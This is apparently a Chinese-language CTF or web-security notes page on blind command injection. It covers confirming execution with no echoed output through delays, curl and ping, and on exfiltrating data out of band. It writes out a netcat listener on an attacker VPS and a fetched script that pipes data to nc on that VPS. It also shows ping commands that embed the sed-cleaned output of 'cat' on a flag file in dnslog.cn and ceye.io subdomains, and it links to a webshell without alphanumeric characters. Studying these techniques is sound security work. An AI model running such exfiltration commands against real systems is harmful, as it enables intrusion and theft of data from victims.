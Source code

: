 #### 同样可以构造无字母数字的webshell

[见这里](No_num_and_char_webshell.md)

### 无回显

> 判断思路

```php
延时              ls|sleep(3)
HTTP请求          curl
DNS请求           ping
```

> curl进行检测

```php
有一台可以进行通信的vps
vps 上执行 nc -lvnp 4444
在目标机器上执行curl vps:4444
观察vps的连接情况
若出现返回，则说明这里是存在命令执行的

或者是编写sh脚本
curl ip/1.sh > /tmp/1.sh
1.sh里面写
内容 | nc vps的ip 监听端口
让受害机器将数据发送给你 
```

> dnslog进行检测

```php
由于域名转换成ip需要经过一次dns解析，所以可以通过dnslog将数据外带出来
推荐如下两个dnslog地址:
http://dnslog.cn
http://ceye.io/records/dns
```

#### 外带过程限制

```php
1、长度的限制，外带的数据不能过长
(解决思路:尝试将结果截断,分批次外带)
2、外带出来的数据中不能包含空格，很多特殊字符如（;>?<"'）,我fuzz到的结果仅可以拼接_
(解决思路:使用Linux的字符替换函数将可能出现的字符替换后再进行外带)
```

我先把我的思路放在下面，查了一下域名可用字符，合法字符只有中文汉字|_|-这三个

```php
这里只能讲一下思路,利用sed函数将空格替换成_,也可以替换成NULL
where_is_flag.php的内容是: <?php $flag={xxxxxxxx}?>
要目标机器去ping `cat where_is_flag.php|sed s/[[:space:]]/_/`.vflkgp.dnslog.cn
sed s/[[:space:]]// 会将cat读取的内容里面的所有空格替换为_
ping -c 4 `cat 1.php|sed s/[[:space:]]/_/|sed s/\</_/|sed s/\?/_/|sed s/\;/_/|sed s/\?/_/|sed s/\>/_/|sed s/\(/_/|sed s/\)/_/`.eugcs.ceye.io
可以尝试将所有可能出现的字符全部替换一遍
```
